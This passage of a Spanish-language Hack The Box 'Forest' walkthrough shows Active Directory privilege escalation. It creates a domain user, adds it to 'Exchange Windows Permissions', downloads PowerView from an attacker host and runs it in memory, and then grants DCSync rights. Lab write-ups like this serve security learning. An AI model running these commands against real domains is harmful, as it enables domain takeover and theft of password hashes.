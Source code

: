 Lo primero que haremos será crear un usuario nuesvo con lo siguiente y verificaremos que los permisos se hayan aplicado.

```console
net user cyb3r3xpl0it password \add \domain

net user /domain

net group "Exchange Windows Permissions" /add cyb3r3xpl0it

net user cyb3r3xpl0it

```

Una vez esto descargamos y ejecutamos PowerView.ps1, para ello creamos un servidor virtual con python.

```console
python -m http.server 80
```

Una vez esto ejecutaremos el **PowerView**

```console
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14/PowerView.ps1')
$pass = ConvertTo-SecureString 'password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('htb\cyb3r3xpl0it', $pass)
Add-DomainObjectAcl -Credential $cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity 'cyb3r3xpl0it' -Rights DCSync
```

![perms](/assets/img/posts/HTB/forest/17.png)
